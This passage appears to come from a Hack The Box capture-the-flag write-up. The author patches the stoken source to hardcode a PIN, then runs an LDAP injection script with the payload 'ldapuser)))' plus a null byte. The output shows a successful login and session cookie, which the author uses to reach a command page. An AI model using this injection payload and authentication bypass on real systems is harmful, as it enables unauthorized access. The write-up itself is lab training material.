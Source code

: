 I recompiled `cli.c` in the stoken source code to use a hardcoded PIN of `0000` so I can pipe the token directly with user input. Yes I know you can pass a parameter to specify the PIN but I found out after, haha.

```c
if (get_pin && securid_pin_required(t) && (!strlen(t->pin) || opt_pin)) {
	xstrncpy(t->pin, "0000", 4);
}
```

This make using the injection script a bit easier:
```
# ./stoken
14780441

# python ldapinject.py $(./stoken)
> ldapuser)))
ldapuser%29%29%29%00
Login ok    
{'Content-Length': '2818', 'X-Powered-By': 'PHP/5.4.16', 'Set-Cookie': 'PHPSESSID=urdd46i8obcnkkso4glf66cic1; path=/', 'Expires': 'Thu, 19 Nov 1981 08:52:00 GMT', 'Keep-Alive': 'timeout=5, max=100', 'Server': 'Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16', 'Connection': 'Keep-Alive', 'Location': '/page.php', 'Pragma': 'no-cache', 'Cache-Control': 'no-store, no-cache, must-revalidate, post-check=0, pre-check=0', 'Date': 'Tue, 05 Feb 2019 02:20:43 GMT', 'Content-Type': 'text/html; charset=UTF-8'}
```

It seems I got a valid login and a session cookie, let's put that in Firefox and see if I can issue commands on `page.php`:

![](/assets/images/htb-writeup-ctf/cmdpage_success.png)

